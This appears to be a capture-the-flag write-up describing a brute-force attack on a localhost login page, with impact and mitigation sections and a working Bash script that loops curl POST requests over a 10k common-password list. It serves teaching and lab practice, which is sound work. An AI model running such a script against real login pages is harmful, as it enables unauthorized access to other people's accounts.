 # Password Cracking (Brute Force Attack)

## Description
This Flag involved performing a brute force attack on the login page to identify a valid username and password combination. By testing a list of common passwords, we were able to successfully gain access and retrieve the flag.

## Steps to Exploit
1. **Identify Target:**
   - The login page was identified as the target for the brute force attack.

2. **Use the Script:**
   - We used a Bash script to automate the process of testing a list of common passwords against the login form. The script iterated through the passwords and checked the response for the presence of the flag.

3. **Run the Script:**
   - The script was executed with a password list (`10k.txt`). During the process, the correct password "shadow" was identified.

4. **Gain Access:**
   - After identifying the correct password, "shadow," the login was successful, and the flag was obtained.


## Impact
The success of a brute force attack highlights several critical vulnerabilities:

- **Weak Password Policies:** If users or administrators use common or weak passwords, they become easy targets for brute force attacks. This can lead to unauthorized access to sensitive systems and data.
  
- **Account Compromise:** Once an attacker gains access through brute force, they can potentially escalate privileges, access sensitive information, or perform malicious activities within the system.

- **Automation Risks:** Automated scripts can quickly cycle through password lists, making brute force attacks more efficient and dangerous if proper protections are not in place.



## Mitigation
To prevent brute force attacks, consider implementing the following security measures:

- **Strong Password Policies:** Enforce strong password policies requiring a combination of uppercase letters, lowercase letters, numbers, and special characters.
  
- **Account Lockout Mechanisms:** Implement account lockout mechanisms that temporarily disable an account after a certain number of failed login attempts.
  
- **CAPTCHA:** Introduce CAPTCHA or other challenge-response tests to make automated brute force attacks more difficult.

- **Two-Factor Authentication (2FA):** Implement two-factor authentication to add an additional layer of security, requiring not just a password but also a second form of verification.

## Script Used
Below is the Bash script used to perform the brute force attack:

```bash
#!/bin/bash

passwords=$(<10k.txt)

# Split the passwords into an array
IFS=$'\n' read -d '' -r -a password_array <<< "$passwords"

counter=1

for i in "${password_array[@]}"; do
    response=$(curl -X POST "http://localhost/index.php?page=signin&username=admin&password=${i}&Login=Login#")
    echo "$response" | grep 'flag' && echo "Flag found on password ${counter}: ${i}" && break
    ((counter++))
done
```

How the Script Works:

Password List: The script reads a list of 10,000 common passwords from a file named 10k.txt.
Iteration: It then iterates through each password, using curl to submit the password to the login form.
Flag Detection: If the response contains the word "flag," the script outputs the correct password and stops.
